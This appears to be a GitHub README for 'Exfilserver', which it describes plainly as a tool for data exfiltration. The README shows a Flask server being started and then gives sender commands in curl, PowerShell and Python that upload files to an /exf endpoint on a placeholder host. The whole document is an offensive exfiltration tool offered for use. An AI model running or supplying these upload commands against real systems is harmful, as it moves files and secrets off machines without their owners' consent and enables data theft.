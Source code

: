 # 📭 Exfilserver

> 📨 Data exfiltration via upload using curl or similar... 

### Run in you server:

```sh
pip install Flask \
python3 server.py -p 80 -f /tmp/files
```

### Upload from sender:

> Via curl:

```sh
curl -X POST -F "file=@./file" http://<youhostname>:80/exf
```

> Via powershell

```powershell

$FilePath = "C:\Users\Public\teste.txt"
$Url = "http://127.0.0.1:80/exf"

Invoke-WebRequest -Uri $Url -Method Post -InFile $FilePath -ContentType "multipart/form-data"

```

> Via python:
```py
import requests
import sys

def upload_file(server_url, file_path):
    url = f"{server_url}/exf"
    try:
        with open(file_path, 'rb') as f:
            files = {'file': (file_path, f)}
            response = requests.post(url, files=files)
        print(f"[*] Status: {response.status_code}")
        print(f"[*] Response of server: {response.text}")
    except Exception as e:
        print(f"[!] Error to send file: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: python {sys.argv[0]} <server_url> <file_path>")
        sys.exit(1)

    server_url = sys.argv[1]   # example: http://127.0.0.1:80
    file_path = sys.argv[2]
    upload_file(server_url, file_path)
```


